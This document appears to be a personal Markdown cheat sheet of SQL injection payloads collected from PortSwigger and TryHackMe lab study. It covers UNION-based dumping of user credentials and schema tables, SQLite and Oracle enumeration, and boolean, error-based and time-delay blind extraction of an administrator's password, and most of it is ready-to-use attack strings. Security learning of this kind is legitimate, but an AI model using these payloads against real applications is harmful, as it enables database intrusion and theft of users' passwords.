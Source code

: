 - `';--+-`
- `'--+-`
- `'` - if you get status code 500 the app might be vulnerable to SQLi.
- `admin123' UNION SELECT 1,2,3 where database() like 's%';-- -`
- `' UNION SELECT database(),concat(user, ":", password)  FROM users;-- -`
- `' UNION SELECT database(),table_name FROM information_schema.tables;-- -`
- `' UNION SELECT database(),column_name FROM information_schema.columns WHERE table_name='users';-- -`
- `' UNION SELECT @@version,2;-- -`
- Time: `' UNION SELECT SLEEP(5),2;-- -`
- find the number of columns: `' UNION SELECT NULL,NULL;-- -`
- ` UNION SELECT user,password from users;-- -`
- [SQLi PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQLi Union Attacks PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) 
- [SQLi THM](https://tryhackme.com/r/room/sqlinjectionlm)
- [SQLi cheat sheet PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQLite
- keywords are **case insensitive**
- `' Union Select name from sqlite_master where type='table`
- dump all the tables: `' Union Select Group_concat(name, ', ') from sqlite_master where type='table`
- ` Union Select Group_concat(username || ':' || password, ', ') from admintable'`
- dump structure of table: ` Union Select sql from sqlite_master where name='admintable`
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


### Portswigger
### Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

- You can list tables by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can list columns by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

- Oracle requires a `FROM` clause in every `SELECT`. If you want to return a constant, expression, or function result without querying a real table, you use `DUAL`. via ChatGPT
	-  example: `' UNION SELECT NULL,NULL FROM DUAL --`
- [ALL_TABLES docs](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)
-  you can concat strings with `||`

### Blind SQLi

- https://portswigger.net/web-security/sql-injection/blind
- no error message is displayed on the page, but a message like "Welcome back" or "Success" displayed whenever a row is returned from the SQL query. 
- check if table `users` exists:
- `' OR (SELECT 'a' FROM users LIMIT 1)='a` 
- `' OR SUBSTRING((SELECT password FROM users WHERE username='administator')1,1)='a`
	-  takes the first letter of `administrator`'s password and checks if it's equal to `a`
	-  you can apply comparison operations like `SUBSTRING((SELECT password from users WHERE username='administrator'),1,1)>'a`
- determine length of password:
	- `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`


### Error-based SQLi
- `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
	- if username = 'administrator' and password starts with `m` -> output error
	- else app behaves normally.
- check [Portswagger cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Visible error-based SQL injection
- `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--`
	- if the database is misconfigured it should throw an error like: ERROR: invalid input syntax for type integer: "2x2i4tqll4ctr686jsx2".
	- the value between the double quotes is the password.

### Blind SQL injection with time delays and information retrieval
- `1'%3b+SELECT+CASE+WHEN+SUBSTRING((SELECT+passwword+FROM+users+WHERE+username%3d'administrator'),1,{len(password)+1})%3d'{password}{char}'+THEN+pg_sleep(3)+ELSE+pg_sleep+(0)+END--`
 
- DON'T FORGET TO ENCODE THE COOKIE, you can use burp suite for this.
- the value between the double quotes is the password.
![[url_encoding_vs_base64encoding.png]]